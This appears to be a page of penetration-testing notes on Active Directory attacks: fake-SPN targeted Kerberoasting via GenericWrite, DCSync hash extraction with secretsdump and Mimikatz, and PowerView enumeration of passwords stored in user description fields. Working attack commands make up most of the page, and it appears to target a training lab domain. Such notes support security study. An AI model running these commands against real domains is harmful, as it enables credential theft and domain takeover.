 #### **Abusing GenericWrite to Add Fake SPN and Perform Targeted Kerberoasting**

> If you have control of a Linux domain-joined host, you can use [TargetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform all the following steps in one command

1. Create a PSCredential Object with the credential of a user who shares group membership with the target user
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a fake SPN:
   * `Set-DomainObject -Credential $Cred -Identity targetuser -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
3. Kerberoast with Rubeus or any alternatives, see the [Kerberoasting Section](internal-enumeration-and-lateral-movement.md#kerberoasting)
   * `.\Rubeus.exe kerberoast /user:targetuser /nowrap`

***

#### **DCSync (Replicating Directory Changes & Replicating Directory Changes All)**

> DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a DC to retrieve user NTLM password hashes by requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right, which allows the replication of secret data.\
> \
> To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the `Replicating Directory Changes` and `Replicating Directory Changes All` permissions set).\
> Domain/Enterprise Admins and default domain administrators have this right by default.

**Enumerate and Perform a DCSync Attack:**

1. Check target user (by SID) to check replication rights (DCSync):
   * `Import-Module .\PowerView.ps1`
   * `$sid = Convert-NameToSid targetuser` followed by
   * `Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
2. Extract NTLM hashes from the NDTS.dit file on the DC:
   * Linux: `impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/user-with-replication-rights@172.16.5.5 -use-vss`
   * Windows(Mimikatz): `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

***

## **Miscellaneous Misconfigurations**

**Passwords in User Description Field:**

* Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView.
* `Import-Module .\PowerView.ps1` followed by `Get-DomainUser * | Select-Object samaccountname,description`
